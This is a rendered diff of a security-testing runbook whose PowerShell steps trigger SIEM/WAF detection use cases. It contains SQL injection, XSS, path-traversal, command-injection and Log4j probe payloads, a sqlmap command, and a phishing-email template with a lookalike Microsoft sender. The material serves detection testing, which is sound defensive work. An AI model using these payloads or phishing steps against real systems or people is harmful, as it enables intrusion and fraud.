

Before and after one commit to DrHayabusa/HELPAG-VAPT-Test-Site, a Markdown page: docs/tda/TDA_USECASE_RUNBOOK.md, the part around one of its changes. Shown at 84% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/tda/TDA_USECASE_RUNBOOK.md
+++ b/docs/tda/TDA_USECASE_RUNBOOK.md
@@ -156,7 +220,13 @@ index=* EventCode=4625 earliest=-15m | stats dc(user) as accounts by src | where
 
 # GROUP C — Web (from the Windows box against the web app)
 
+> **Atomic Red Team note:** ART focuses on endpoint techniques, not web-app
+> attacks. For SQLi/web-exploit use the manual commands below or Kali tools
+> (`sqlmap`, `gobuster`, `nikto`, ZAP). No ART option.
+
 ## UC0228 — SQL Injection Attempt (pattern match)
+**Requires:** a reachable web app URL.
+**Steps:**
 ```powershell
 $u="http://<WEBAPP>"
 "1' OR '1'='1","1; DROP TABLE users--","' UNION SELECT null,username,password FROM users--" | ForEach-Object {
@@ -164,40 +234,57 @@ $u="http://<WEBAPP>"
   try { Invoke-WebRequest "$u/product?id=$p" -UseBasicParsing -TimeoutSec 5 | Out-Null } catch {}
 }
 ```
-(Or from Kali: `sqlmap -u "http://<WEBAPP>/product?id=1" --batch`.)
-**Validate:** WAF/web logs with SQLi patterns from your source IP.
+(Kali alt: `sqlmap -u "http://<WEBAPP>/product?id=1" --batch`.)
+**Validate:** WAF/web logs show SQLi patterns from your source IP.
 
 ## UC0229 — Web Application Exploit Detected
-Send common exploit payloads (XSS, traversal, command injection, Log4j probe).
+**Requires:** a reachable web app URL.
+**Steps:**
 ```powershell
 $u="http://<WEBAPP>"
-$payloads = @(
+@(
  "/search?q=<script>alert(1)</script>",
  "/download?file=../../../../etc/passwd",
  "/ping?host=127.0.0.1;whoami",
  '/api?x=${jndi:ldap://127.0.0.1/a}'
-)
-$payloads | ForEach-Object { try { Invoke-WebRequest "$u$_" -UseBasicParsing -TimeoutSec 5 | Out-Null } catch {} }
+) | ForEach-Object { try { Invoke-WebRequest "$u$_" -UseBasicParsing -TimeoutSec 5 | Out-Null } catch {} }
 ```
-**Validate:** WAF/IPS/web logs flag the exploit patterns from your source IP.
-> This repo's `OWASP_TOP10_TEST_COMMANDS.md` has more ready web payloads.
+**Validate:** WAF/IPS/web logs flag the exploit patterns. (More payloads in this repo's `OWASP_TOP10_TEST_COMMANDS.md`.)
 
 ---
 
-# GROUP D — Email / DLP (needs a mail channel / DLP-monitored path)
+# GROUP D — Email / DLP (needs a mail channel / DLP path)
 
 ## UC0222 — Suspicious Email Attachment / Malware by Mail
-Send an email into the org with (a) an EICAR attachment and (b) a suspicious
-extension (`.exe`/`.scr`/`.js`/`.hta`). **Requires a sending mailbox.**
-- Attach `eicar.com` (from UC0032) → tests mail AV.
-- Attach a file named e.g. `invoice.exe` → tests attachment-extension rule.
-
-**Validate:** mail security/SIEM logs show the blocked/flagged attachment + malware verdict.
+**Detects:** malware or dangerous-extension attachment in email.
+**Requires:**
+- An **SMTP server/relay** you can send through (`<SMTP_SERVER>`).
+- A **target mailbox** in the org (`<victim@customer.com>`).
+- The EICAR file from UC0032, and/or a file with a risky extension.
+**Steps:**
+```powershell
+# make a risky-extension attachment
+Copy-Item C:\Windows\System32\calc.exe "$env:TEMP\invoice.exe"
+# send EICAR (mail-AV test) + risky attachment (extension rule test)
+Send-MailMessage -From "test-sender@yourlab.local" -To "<victim@customer.com>" `
+  -Subject "Invoice attached" -Body "Please review the attached invoice." `
+  -Attachments "$env:TEMP\eicar.com","$env:TEMP\invoice.exe" `
+  -SmtpServer "<SMTP_SERVER>"
+```
+**Validate:** mail security / SIEM shows the malware verdict or blocked extension.
+> `Send-MailMessage` is deprecated but works. If blocked, use an authorized phishing-sim platform or a test relay.
 
 ## SPLUC0107 — Suspected Phishing Email
-Send a phishing-style test email into a monitored mailbox: spoofed/lookalike
-sender, urgent language, a suspicious link (lab-controlled URL). **Requires a
-sending mailbox** (use an authorized phishing-sim sender or your test account).
-**Validate:** mail security / phishing detection logs flag the message.
+**Detects:** phishing-style email.
+**Requires:** SMTP relay + monitored target mailbox (as above).
+**Steps:**
+```powershell
+Send-MailMessage -From "security-alert@micros0ft-support.com" -To "<victim@customer.com>" `
+  -Subject "URGENT: Your account will be suspended" `
+  -Body "Verify now: http://<LAB_PHISH_HOST>/login" `
+  -SmtpServer "<SMTP_SERVER>"
+```
+(Lookalike sender, urgency, suspicious link → phishing indicators.)
+**Validate:** mail security / phishing detection flags the message.
 
 ## UC0575 — Multiple DLP Violations for a User
````
Also changed, not shown: other parts of docs/tda/TDA_USECASE_RUNBOOK.md (+157 -72 lines).
